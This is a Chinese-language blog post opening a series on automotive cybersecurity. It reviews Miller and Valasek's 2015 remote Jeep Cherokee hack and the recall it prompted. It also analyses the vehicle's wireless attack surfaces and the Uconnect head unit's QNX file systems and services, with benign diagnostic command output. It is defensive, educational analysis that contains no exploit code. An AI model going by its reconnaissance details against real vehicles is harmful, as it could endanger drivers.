







# 汽车与网络安全系列 1 历史的交叉口

HHHParty 2022年5月10日

汽车就像“移动的房间”，为人们提供了出行服务的同时，还兼顾了临时居所的功能。自1885年德国人卡尔.奔驰（ BariFriedri BhAenz） 制造出第一台能用的三轮汽车以来，汽车产品和产业经过了近140年的发展，在发动机、传动系统、制动系统、车身结构、驾乘操控等方面有了诸多变化。特别是最近的50年间，汽车的电子电气架构也从分布模块，到多域集中，再向智能融合方向发展，为原有的纯机械结构加上了电，将火与电这两种神奇的力量融于一身。一台汽车上的传感器、线束、控制器、软硬件系统越来越多，功能越来越丰富，汽车从“移动的房间”逐渐演变为电气化、联网化、智能化的“移动房间”。

当汽车用户和汽车制造商不断憧憬着汽车在未来有多么美好的时候，一个从未在汽车上出现的问题出现了。这个问题就是现在汽车行业普遍关注和升温的网络安全问题。

2015年8月，Charlie Miller 博士和Chris Valasek 发表了他们的研究报告：《Remote Exploitation of an Unaltered Passenger Vehicle》。这篇长达91页的报告较为详细介绍了针对 2014款 Jeep Cherokee 车型的网络安全问题研究，特别是对未改装原款车型的远程攻击部分，引起了各界人士的关注。之前对此类问题的研究，汽车OEM厂商总体态度是比较一致的，那就是这种攻击必须要物理接触车辆才能实施，这样的攻击还不如直接剪断汽车内的电线来的直接，所以没必要特别关注。而 Miller 等人的报告揭示了网络攻击不仅能远程实施，还将大面积影响众多消费者安全。至此，汽车OEM厂商、零部件T1/T2厂商不得不开始重新审视面向汽车的网络攻击，这种攻击不再只是一些技术狂热者的个人臆想，而是一种必须面对的客观存在了。


图1 Fiat Chrysler U.S. 2014 Jeep Grand

2015年，美国国家高速公路交通安全管理局（NHTSA）根据上面报告和自身调查，发出了有史以来第一张由于网络安全而产生的召回要求。NHTSA 要求生产2014款 Jeep Cherokee（Grand）的 Fiat Chrysler 公司召回存在相关问题的车辆，包括：2013-2015款道奇蝰蛇，2013-2015款Ram 1500、2500和3500皮卡，2013-2015款Ram 3500、4500、5500 Chassis Cabs皮卡，2014-2015款Jeep大切诺基和自由光SUV，2014-2015款道奇Durango SUV，2015款克莱斯勒200、克莱斯勒300和道奇Charger轿车，2015款道奇Challenger轿跑等车型，共涉及140万辆车，所召回的车辆都搭载了基于 QNX 系统的 Uconnect 系统，配备8.4英寸大屏幕。Fiat Chrysler 公司总损失高达数百万美元。那年7月，Fiat Chrysler 公司在纽交所的股票收盘价格为15.15美元，下跌了2.5%。

  

图2 Fiat Chrysler U.S. 2014 Jeep Grand召回信息  

事实上，随着网络化、智能化程度的不断提高，汽车不可避免地融入了万物联网的世界，也自然而然会受到IoT世界中的网络安全问题的影响。这也是近年来 NHTSA、WP.29、SAE、CICV等国内外汽车研究机构开启汽车网络安全专门研究的时代背景和技术背景。在国内，随着车联网、智能网联汽车等概念的唱响，理想、蔚来、小鹏等造车新势力的崛起，华为、百度、小米、京东等互联网厂商的入局，汽车行业与互联网行业开始深度融合。国内大部分的汽车技术研究机构、汽车OEM厂商、汽车零部件供应商（T1/T2）和互联网厂商开始聚焦汽车网络安全领域，纷纷结合自身需求和特长，一方面考虑设计和实现更为成熟、更加经济的网络安全解决方案，另一方面考虑将网络安全作为新的价值增长点为内、外部客户提供相关产品和服务。

为了更好的理解和应对汽车网络安全问题，我拟定了一个目标，即编写一个涉及汽车网络安全各方面知识的系列专题。在“汽车与网络安全”这一系列专题下，将系统地分析与讨论涉及汽车网络安全的主要方面和技术细节，希望能为国内关注汽车网络安全的专业人士提供有价值的参考信息。

作为这个系列的第一篇，希望通过回顾《Remote Exploitation of an Unaltered Passenger Vehicle》这份技术报告的诸多细节来发现汽车中现实存在的网络安全问题，并形成后续的分析脉络。


图3 《Remote Exploitation of an Unaltered Passenger Vehicle》报告

## 报告内容概要

Miller 等人选择 2014款 Jeep Cherokee 作为研究对象的原因，是这款车恰好被作者发现且能充分证明远程网络攻击能够窃取驾驶员隐私并且实现远程控车。在《Remote Exploitation of an Unaltered Passenger Vehicle》报告中，其主要内容包括：

- 2014款Jeep Cherokee 的技术分析
  - 网络架构
  - 网络物理特性
    - 自适应巡航控制（ACC）
    - 前向碰撞告警增强（FCW+）
    - 车道偏离告警（LDW+）
    - 泊车辅助系统（PAM）
  - 远程攻击面
    - 被动防盗窃系统（PATS）
    - 胎压监测系统（TPMS）
    - 远程无钥匙进入/启动（RKE）
    - 蓝牙
    - Radio 数据系统
    - WiFi
    - 车载信息系统/Internet/Apps
- Uconnect System
  - QNX 环境
  - 文件系统和服务
    - IFS
    - ETFS
    - MMC
    - PPS
  - WiFi
    - 加密
    - 开放端口
  - D-Bus 服务
  - 蜂窝通信模块
  - CAN 连接性
- Uconnect 越狱
  - 任意版本
  - 更新模式
  - 正常模式
- 渗透 D-Bus 服务
  - 代码执行
- Uconnect 攻击载荷
  - GPS
  - HVAC
  - Radio Volume
  - Bass
  - Radio Station（FM）
  - Display
  - Knobs
- 蜂窝通信模块渗透
  - 网络设置
  - Femtocell
  - 蜂窝通信访问
- 有漏洞车辆的扫描
  - 扫描结果
  - 有漏洞车辆数量预测
  - 车辆蠕虫
- V850
- SPI 通信
- 完整渗透链
  - 识别目标
  - 渗透车机的OMAP芯片
  - 控制 Uconnect 系统
  - v850固件刷写
  - 执行网络物理功能
- 网络物理内部结构
- 网络物理 CAN 消息
  - 正常 CAN 消息
  - 诊断 CAN 消息
- 信息披露
- 补丁和风险缓解
- 结论

虽然这是一份2015年公布的报告，但这份报告，内容丰富，层次分明，个人认为是一份不错的进入汽车网络安全领域的入门手册。

## 攻击面分析

网络攻击是利用系统漏洞，破坏目标网络信息系统机密性、完整性、可用性的过程。网络攻击开始于对目标的信息搜集和攻击入口寻找。面向汽车的网络攻击也不例外，在 Miller 等人的研究中，首先分析了车机的网络连接和功能特性，由此来寻找可利用的网络攻击入口。对车机攻击入口进行枚举、分类及关联，就构成了面向车机系统的网络攻击面（Attack Surface）。

### 车机网络连接分析
2014款 Jeep Cherokee车型网络架构当时没有考虑网络安全问题，将车机（Head Unit/Radio）与CAN总线直接相连。基本组成如下图所示：


Miller等人认为如果车机能成功渗透，那么就可以访问连接在CAN-IHS和CAN-C网络上的大量ECUs，这意味着恶意CAN消息可以发送到所有车辆控制物理功能的ECUs上。事实上，之后的远程渗透过程也是沿着这个思路进行的。这里我们得到了第一条启示：**不要将车载信息娱乐系统（车机、IVI、T-Box）等连接外网的设备与车内总线直接相连，如果必须相连，则需要经过充分的网络安全隔离。**

2014款 Jeep Cheerokee 配备了为数不少的辅助驾驶功能，这些功能一方面为驾乘人员和车外环境提供了更多的安全保障，但另一方面也增加了网络入侵的可能。这些功能包括：自动巡航控制ACC、前向碰撞告警（FCW+）、道路偏离告警（LDW+）、泊车辅助系统PAM等等。这些系统中，Miller等人充分利用了PAM系统来实现了远程控车操作。

### 攻击面分析

对于网络攻击者而言，分析网络架构和车辆功能是为了找到可实施攻击的入口，即寻找攻击面，特别是可远程的攻击面。总的来看，潜在的攻击入口有6个：

|攻击入口|连接的ECU|连接总线|
|-|-|-|
|远程无钥匙进入/启动系统RKE|车机（Radio）频率控制模块RFHM|CAN-C|
|被动防盗系统 PATS|车机（Radio）频率控制模块RFHM|CAN-C|
|胎压监测系统TPMS|车机（Radio）频率控制模块RFHM|CAN-C|
|蓝牙系统Bluetooth|车机（Radio）|CAN-C，CAN-IHS|
|FM/AM/XM|车机（Radio）|CAN-C，CAN-IHS|
|蜂窝通信Cellular|车机（Radio）|CAN-C，CAN-IHS|
|Internet / APPs|车机（Radio）|CAN-C，CAN-IHS|

就上面列表中的内容，简要说明如下：

1.RKE和PATS是最先会被考虑的攻击入口，因为一旦发现并利用 RKE 或 PATS 的漏洞，就能够证明非法进入车辆和点火启动是成立的。下图给出了 RKE 类似系统的组成。
> 注：RKE 在有些资料中，称为无钥匙进入系统和无钥匙进入系统（Keyless Entry Start & Exit Security System，Kessy），也有OEM称之为被动进入和被动启动系统（Passive Entry & Passive Start，PEPS）。


图3 - 无钥匙进入系统的基本结构

2.2014款 Jeep Cheerokee 的远程无钥匙进入系统 RKE（钥匙）里有一短距离无线发射器能够与车内的ECU——Raido 频率HUB模块（RFHM）进行通信。当钥匙发送包含了正确识别码的信息，RFHM 若判断该钥匙有效，会随后完成锁闭、解锁和启动车辆等操作。RFHM的固件（Firmware）程序负责 RF 信号处理、加解密识别码、识别遥控钥匙发送的数据，还能为备用钥匙编程。Jeep的被动防盗系统 PATS 使用了一块放在启动钥匙中的芯片与车内传感器通信，而这一传感器直接连接着 Raido 频率 HUB 模块（RFHM）。当启动按钮按下时，车载计算机会发生一个射频信号，钥匙内的应答器采集到这一信号后会返回一个唯一的RF信号给车载计算机。之后，车载计算机会确认启动并持续运行。这个过程少于1秒，如果车载计算机没有接收到正确的识别码，某些部件（例如燃油泵和某些部件上的起动机）将保持禁用状态。虽然存在发现 RFHM 固件漏洞及利用方法存在可能，但其远程实施攻击的可能性不大，因为必须非常接近车辆才能与车内传感器进行通信。

3.胎压监测系统 TPMS 也是一个常被考虑的攻击入口。TPMS的基本结构如下图4所示。Cheerokee 的每条轮胎都装有压力传感器，使用短距离无线通信方式实时传递数据给 RFHM 中的信号接收传感器。在一些安全研究中TPMS确实可能被攻击者通过无线信号注入方式产生干扰或影响功能，甚至可以证明TPMS以不安全方式处理接收到的数据，但通过TPMS形成代码注入和执行的可能性较小。


图4 - TPMS系统的基本结构

4.车载蓝牙系统是值得关注的一个攻击入口，从近年来美国 NIST 的国家漏洞库 NVD 可知，与蓝牙相关的漏洞有583个（截止2022年5月10日），其中不乏可远程利用的高危漏洞。2014款 Jeep Cheerokee 的蓝牙系统集成在车机系统中，蓝牙配对成功后可执行访问车机中的通信录、拨打电话、听音乐、发送短信等操作。

5.2014款 Jeep Cheerokee 的 Radio 数据系统衔接着GPS、AM/FM Radio、卫星Radio等远程输入，还具有通过FM模拟信号或卫星信号向外发送数据的功能，因此它的 Radio 数据系统也被考虑为一个攻击入口。

6.基于蜂窝通信的互联网接入模块不仅连通了互联网，也将作为一个WiFi热点为车内乘客提供服务，所以Jeep上的蜂窝通信和WiFi热点也都被列为重要的攻击入口。由于 2014款 Jeep Cherokee 的WiFi热点必须付费后才能开通使用，所以利用 WiFi 热点漏洞是存在付费这一条件的。默认的 WiFi 加密方式为带8位字符+数字的随机密钥的 WPA2 算法，这一点是比较安全。

7.车载信息娱乐系统（Telematic）及其中应用既可连接互联网且常见于包含可利用漏洞，是值得关注的一大攻击入口，而暴露出严重问题的 Uconnect 系统也证实了这一点。

从攻击面分析来看，我们可以得到第二条启示：**尽量避免使用无线通信，如果必须使用，那么要充分降低通信距离、时间，避免使用有公开漏洞的软硬件，关于蓝牙、WiFi等频繁爆发高危漏洞的模块需要执行长期监控。**

### Uconnect 系统

Uconnect 系统是一款功能不俗的车机系统。2014款 Jeep Cheerokee 装配的为Uconnect 8.4AN/RA4，由 Harman Kardon 制造，提供车载娱乐、WiFi连接、导航、应用软件和蜂窝通信功能。


主要功能芯片为同档次车型中较为常见的 TI OMAP-DM3730 芯片，这是一种基于ARM Cortex-A8的32位单核数字媒体处理芯片，支持以太网，OS为Linux 或 RTOS（Jeep选用了QNX）。Uconnect 通过CAN-IHS总线与其他ECUs通信，在一些装配了 Uconnect Acess组件的车辆里，也会使用CAN-C总线与ECUs通信。



图6 TI OMAP-DM3730 芯片结构示意图

Harman 公司产的 Uconnect系统在 Fiat Chrysler 公司其他车型上也颇为常见，例如：Chrysle、Dodge、Jeep、Ram等等。由于 Uconnect 中存在漏洞，所以引发了后来 Fiat Chrysler 公司的大范围召回。从这里，我们可以得到第三条启示：**应特别关注关键车载网联零部件的网络安全问题，防止发生大的供应链安全风险**

## QNX
2014款 Jeep Cheerokee 的 Uconnect 系统采用了 QNX 作为底层OS。使用处理器信息查看命令`pidin`：

```sh
# pidin info
CPU:ARM Release:6.5.0 FreeMem:91Mb/512Mb BootTime:Jul 30 21:45:38 2014
Processes: 107, Threads: 739
Processor1: 1094697090 Cortex A8 800MHz FPU 
```

>注：有关 QNX 系统的安全分析和应用分析可以在虚拟机上实现。

### 文件系统和服务

Uconnect 中的文件存放在 NAND Flash 中。出于不同的目的，Flash上有多个文件系统，如下表所示：

|分区名|权限|功能|
|-|-|-|
|初始化程序加载 IPL| 只读|LPL 分区包含了启动Uconnet的 Bootloader。|
| IFS |只读| IFS 分区包含了 QNX 文件系统镜像，它包含了OS所有二进制和配置文件，将在启动时被加载到RAM中。|
|ETFS|读写|ETFS是嵌入式事务文件系统，用于嵌入式固态存储设备，高可靠，支持POSIX 语义的全层级目录结构|
|MMC|读写|多媒体卡分区挂载于/fs/mmc0，用于存储系统数据，是Uconnect中唯一的大容量可写存储器|

在这几个分区中，IPL 的安全显然非常重要。Bootloader一旦被篡改，那么将形成 rootkit，任何恶意程序都可无声无息的被运行，但实现难度也是显然的，即攻击者必须物理接入车机主控芯片进行操作。IFS 的安全也很重要，它存放了所有运行 QNX 系统的二进制文件和配置信息。特别是它还与软件更新相关，通过查看车机中未打包的 ISO 文件，在主目录下可以找到 ‘manifest’ 清单文件。其中部分内容揭示了 IFS 的位置是文件 “ifs-cmc.bin” 。还可以在QNX中找到 `swdl/usr/share/swdl.bin` 这个包含升级过程的镜像文件。为了查看这个镜像中的内容，可以使用 `memifs2` 和 `dumpifs` 命令，例如：

```sh
memifs2 -q -d /fs/usb0/usr/share/swdl.bin /somewritable

dumpifs /fs/usb0/usr/share/swdl.bin

Offset Size Name
 0 8 *.boot
 8 100 Startup-header flags1=0x9 flags2=0 paddr_bias=0
 108 22008 startup.*
 22110 5c Image-header mountpoint=/
 2216c cdc Image-directory
 ---- ---- Root-dirent
 23000 8a000 proc/boot/procnto-instr
 ad000 325c proc/boot/.script
 ---- 3 bin/sh -> ksh
 ---- 9 dev/console -> /dev/ser3
 ---- a tmp -> /dev/shmem
 ---- 10 usr/var -> /fs/etfs/usr/var
 ---- 16 HBpersistence -> /fs/etfs/usr/var/trace
 ---- a var/run -> /dev/shmem
 ---- a var/lock -> /dev/shmem
 ---- a var/log/ppp -> /dev/shmem
 ---- 15 opt/sys/bin/pppd -> /fs/mmc0/app/bin/pppd
 ---- 15 opt/sys/bin/chat -> /fs/mmc0/app/bin/chat
 ---- 18 bin/netstat -> /fs/mmc0/app/bin/netstat
 ---- 16 etc/resolv.conf -> /dev/shmem/resolv.conf
 ---- 16 etc/ppp/resolv.conf -> /dev/shmem/resolv.conf
 ---- 18 etc/tuner -> /fs/mmc0/app/share/tuner
 ---- 8 var/override -> /fs/etfs
 ---- c usr/local -> /fs/mmc0/app
 ---- b usr/share/eq -> /fs/mmc0/eq
 b1000 12af etc/system/config/fram.conf
 b3000 38c etc/system/config/nand_partition.txt
 b4000 56b etc/system/config/gpio.conf
 b5000 247b bin/cat
 b8000 1fed bin/io
 ba000 2545 bin/nice
 bd000 216a bin/echo
 c0000 38e0f bin/ksh
 f9000 41bb bin/slogger
 fe000 60a1 bin/waitfor
 105000 531b bin/pipe
 10b000 5e02 bin/dev-gpio
 120000 1270b bin/dev-ipc
 140000 1f675 bin/io-usb
 160000 29eb bin/resource_seed
 163000 3888 bin/spi-master
 167000 48a0 bin/dev-memory
 16c000 9eab bin/dev-mmap
 176000 602c bin/i2c-omap35xx
 17d000 da08 bin/devb-mmcsd-omap3730teb
 18b000 dd3 bin/dev-ipc.sh
 18c000 2198 bin/mmc.sh
 190000 1208f bin/devc-seromap
 1a3000 323d bin/rm
 1a7000 ffa2 bin/devc-pty
 1b7000 4eb bin/startSplashApp
 1b8000 692 bin/startBackLightApp
 1b9000 1019 bin/mmc_chk
 1bb000 42fe usr/bin/adjustImageState
 1c0000 12c81 usr/bin/memifs2
 1d3000 284 usr/bin/loadsecondaryifs.sh
 1e0000 77000 lib/libc.so.3
 ---- 9 lib/libc.so -> libc.so.3
 260000 b0e4 lib/dll/devu-omap3530-mg.so
 26c000 9d17 lib/dll/devu-ehci-omap3.so
 276000 4705 lib/dll/spi-omap3530.so
 280000 14700 lib/dll/fs-qnx6.so
 295000 36e6 lib/dll/cam-disk.so
 2a0000 2b7ba lib/dll/io-blk.so
 2d0000 5594f lib/dll/charset.so
23
 330000 1243c lib/dll/libcam.so.2
 ---- b lib/dll/libcam.so -> libcam.so.2
 350000 3886 lib/dll/fram-i2c.so
Checksums: image=0x702592f4 startup=0xc11b20c0
```

ETFS 中没有对特别有价值的内容，所以这里不再赘述。但是 MMC 文件系统是非常值得关注的，因为它以读写方式被挂载，意味着可以在上面写脚本或代码并执行它。例如在上面发现了诸如“sshd”、“boot.sh"和“runafterupdate.sh”等脚本，还有安装脚本“mmc.lua", 是从ISO镜像中拷贝 `/usr/share/MMC_IFS_EXTENSION` 到 “/fs/mmc0/app”。

QNX 中运行了一些有分析价值的服务，其中一个比较重要的是 PPS（Persistent Publish/Subscribe Service），它有几个相关文件比较重要：

```
/pps/can/vehctl
/pps/can/tester
/pps/can/can_c
/pps/can/send
/pps/can/comfortctl
```

这些文件主要用于PPS服务写入数据，作为输入供其他进程读取。例如，下列数据会被存放在一个 PPS 文件中：

```
@gps
city::Ottawa
speed:n:65.412
position:json:{"latitude":45.6512,"longitude":-75.9041}
```

为了提取这段数据，会使用类似代码：

```c
const char *city;
double lat, lon, speed;
pps_decoder_t decoder;

pps_decoder_initialize(&decoder, NULL);
pps_decoder_parse_pps_str(&decoder, buffer);
pps_decoder_push(&decoder, NULL);
pps_decoder_get_double(&decoder, "speed", &speed);
